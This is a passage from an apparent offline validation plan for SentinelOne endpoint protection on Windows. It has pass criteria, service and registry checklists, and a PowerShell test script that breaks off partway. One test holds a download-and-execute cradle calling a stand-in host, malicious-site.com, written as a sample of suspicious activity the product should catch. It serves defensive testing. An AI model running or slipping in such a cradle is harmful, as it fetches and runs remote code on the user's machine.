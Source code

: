 
## 📊 Validation Metrics

### Expected Results

| Test Scenario | Expected Behavior | Pass Criteria |
|---------------|-------------------|---------------|
| Network Disconnection | Continue threat detection locally | EICAR detected and quarantined |
| Service Restart | Resume protection immediately | Service starts < 30 seconds |
| Policy Cache | Enforce cached policies | Policies remain active offline |
| Registry Protection | Block suspicious modifications | Registry changes prevented |
| Connectivity Recovery | Auto-sync when online | Status shows "Online" within 60s |

### Windows-Specific Validation

#### Service Integration
- [ ] **Service Recovery**: Services auto-restart after failure
- [ ] **Service Dependencies**: Proper dependency management maintained
- [ ] **Service Permissions**: Adequate permissions for offline operation
- [ ] **Service Logging**: Events logged to Windows Event Log

#### Registry Protection
- [ ] **Critical Keys Protected**: System-critical registry keys protected
- [ ] **Startup Protection**: Malicious startup entries blocked
- [ ] **Policy Registry**: SentinelOne policies stored securely
- [ ] **Recovery Mechanisms**: Registry protection recovers from tampering

#### Event Log Integration
- [ ] **Application Log**: SentinelOne events in Application log
- [ ] **Security Log**: Security events properly logged
- [ ] **System Log**: Service events in System log
- [ ] **Custom Logs**: SentinelOne-specific logs available

---

## 🔧 PowerShell Integration Testing

### Advanced PowerShell Protection

```powershell
# PowerShell Protection Test While Offline
Write-Host "=== PowerShell Protection Testing ===" -ForegroundColor Green

# Disconnect from network
New-NetFirewallRule -DisplayName "PS Test Block" -Direction Outbound -RemoteAddress *.sentinelone.net -Action Block

# Test 1: Encoded command execution
$encodedCommand = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("Write-Host 'This is a test'"))
try {
    powershell.exe -EncodedCommand $encodedCommand
    Write-Host "✅ Encoded command executed (expected)" -ForegroundColor Green
} catch {
    Write-Host "⚠️  Legitimate encoded command blocked" -ForegroundColor Yellow
}

# Test 2: Suspicious PowerShell activity
$suspiciousCommand = @"
IEX (New-Object Net.WebClient).DownloadString('http://malicious-site.com/payload.ps1')
```